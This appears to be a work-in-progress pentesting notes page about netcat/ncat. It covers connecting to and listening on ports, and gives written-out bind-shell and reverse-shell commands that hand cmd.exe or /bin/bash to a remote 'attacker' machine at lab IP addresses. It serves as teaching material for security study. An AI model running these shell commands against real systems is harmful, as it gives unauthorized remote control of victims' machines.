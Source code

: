 ```yaml
---
description: >-
  Purpose? - To establish connections on open ports and create listening ports
  on local machine | REVERSE SHELL Section in development
---
```


# Netcat/Ncat - WIP

#### This tool allows us to bind to a given port of a given IP address. It is of help when trying to send files between machines, developing exploit payloads that would serve a backdoor on a target.

The scope of this document limits to a discussion of how to use [netcat](https://nc110.sourceforge.io/)/[ncat ](https://nmap.org/ncat/)to connect to clients and serve opening ports

#### Connecting vs Listening

To attempt to establish a connection with TCP port:

```bash
nc -nv [destination ip] [destination port]
```

To listen on TCP port:

```text
nc -nvlp 4444
```

## Bind Shell: Attacker connects to a victim on listening PORTS

1. On Windows Machine - set netcat/ncat to listen on 4444/TCP:

   Once Netcat is running 'cmd line:' prompt will appear; we will pass it the command line executable.

   `nc -nvlp 4444 -e cmd.exe`

2. On Linux Machine - set netcat to connect to 4444/TCP:

   `nc -nv 192.168.2.1 4444 -e /bin/bash`

**In the Bind Shell case described in 1 & 2 the Windows machine is the victim that has been set up to listen on 4444/TCP**

## Reverse Shell: Victim connects to attacker on listening PORTS

This is the one you will be using the most

1. On Linux Machine - set netcat to listen on 4444/TCP:

   `nc -nvlp 4444`

2. On Windows Machine - connect to 192.168.2.130 machine on 4444/TCP:

   `C:\nc64.exe`

**Once Netcat is running 'Cmd line:' prompt will appear, using the -e switch, we pass the command line executable "cmd.exe" to the destination host:**

`Cmd line: -nv 192.168.2.130 4444 -e cmd.exe`

## [What is ncat?](https://nmap.org/ncat/)

It's just a modern implementation of netcat by the authors of nmap. They describe it as: 

"_Ncat is a feature-packed networking utility which reads and writes data across networks from the command line. Ncat was written for the Nmap Project as a much-improved re-implementation of the venerable_ [_Netcat_](http://sectools.org/tool/netcat/)_. It uses both TCP and UDP for communication and is designed to be a reliable back-end tool to instantly provide network connectivity to other applications and users. Ncat will not only work with IPv4 and IPv6 but provides the user with a virtually limitless number of potential uses._"

```groovy
  .       .       
  \`-"'"-'/       
   } 6 6 {        
  ==. Y ,==       
    /^^^\  .      
   /     \  )     
  (  )-(  )/     _
  -""---""---   / 
 /   Ncat    \_/  
(     ____        
 \_.=|____E       
```

